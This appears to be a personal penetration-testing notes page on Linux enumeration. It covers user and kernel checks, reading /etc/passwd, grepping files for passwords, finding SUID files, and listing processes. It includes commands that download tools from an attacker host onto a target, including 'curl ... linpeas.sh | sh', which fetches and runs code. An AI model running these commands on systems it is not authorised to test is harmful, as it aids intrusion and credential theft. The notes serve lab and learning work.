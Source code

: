 # Linux Enumeration

## Check who you are

```bash
┌──(mac㉿kali)-[~]
└─$ whoami
mac
```

or alternatively use `id` to see more information about your `uid` and which groups you are in:

```bash
┌──(mac㉿kali)-[~]
└─$ id
uid=1000(mac) gid=1000(mac) groups=1000(mac),27(sudo)
```

## Check for other people
Read the `/etc/passwd` file to see a list of users on the box:

```bash
$ cat /etc/passwd
```

Many of these users will relate to certain services, and not be a real person. Look for real users by filtering by those with a real login shell:

```bash
$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
mac:x:1000:1000:Mac,,,:/home/mac:/bin/bash
```

## Check kernel information

```bash
┌──(mac㉿kali)-[~]
└─$ uname -a
Linux kali 5.10.0-kali5-amd64 #1 SMP Debian 5.10.24-1kali1 (2021-03-23) x86_64 GNU/Linux
```

**What does this mean?**

The kernel is a central part of the operating system. This command tells you about the distribution (Kali Linux), the version, and the word size (`x86_64`, i.e. 64-bit)

## Reading all Files
This command concatenates the contents of any readable files in the current working directory:

```bash
$ cat */*
```

It can be combined with a `grep` to look for passwords, for example:

```bash
$ cat */* | grep pass
```

However, it is not particularly efficient on a large number of files - try to use it within a specific directory

## Find Command

Find files by user ownership (from [this post](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions))

```bash
$ find / -user userX
```

Find files by group ownership (from [this post](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group))

```bash
$ find / -group groupX
```
  
Find config files and redirect errors:

```bash
$ find / -name '*.conf' 2>/dev/null
```

Find suid files:

```bash
$ find . -perm /4000
```

Exclude a filename or other query with the `-not` or `!` operator:

```bash
$ find . -not -name "*.exe"

#exclude directories and files beginning with "sys"
$ find /var ! -name "sys*" ! -type d
```

As always, filter your output with `grep` if your find command is not granular enough:

```bash
# anything with "backup" in the name
$ find / -type f | grep backup

#get rid of stuff from /proc and /var/lib
$ find / -user user | grep -v 'proc\|var/lib'

#get rid of error messages (useful if the > operator doesn't work in a shell)
$ find / -user user | grep -v 'Permission denied'
```

You can even use regex in your `find` command with the `-regex` flag:

```bash
$ find ./ ! -regex  '.*\(deb\|vmdk\)$'
```

Or use logical operators like `-o` (logical OR):
```bash
$ find /media/d/ -type f -size +50M ! \( -name "*deb" -o -name "*vmdk" \)
```

(both of the above examples from https://unix.stackexchange.com/questions/50612/how-to-combine-2-name-conditions-in-find#)

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Placing it in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Aliases#Useful Aliases|Useful Aliases]] for `enumserve` alias setup instructions.

On attacker machine:

```bash
$ enumserve
```

Find your IP address ([[Linux Networking#Get your IP]])

On target machine:

```bash
$ wget [IP]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

You can also send it directly to `sh`/`bash` if `wget` is not installed:

```bash
$ curl 10.10.14.53:8000/linpeas.sh | sh
```

Sometimes firewall rules may prevent you from accessing port 8000 - try running the server on port 80 if you aren't getting any results (requires root permissions):

```bash
$ sudo python3 -m http.server 80
```

## Standard Directories to Check
```
/home
/var/www
/var/backups
/var/logs
/opt
/usr/share
/usr/share/local
```

## List Processes & Services
List processes:

```bash
$ ps aux
```

Pspy monitoring:

```bash
$ wget [IP]:8000/pspy64
$ chmod +x pspy64
$ ./pspy64
```

List services:

```bash
$ netstat
```

```bash
$ ss -lntp
```

```bash
$ systemctl list-units --type=service --state=running
```

**Why is this useful?**

- It allows you to see what might be running on a system - and therefore what might be a vulnerable process or service
- It gives you clues to the purpose/role of the user or the system
- It may help you identify processes that belong to higher-privileged users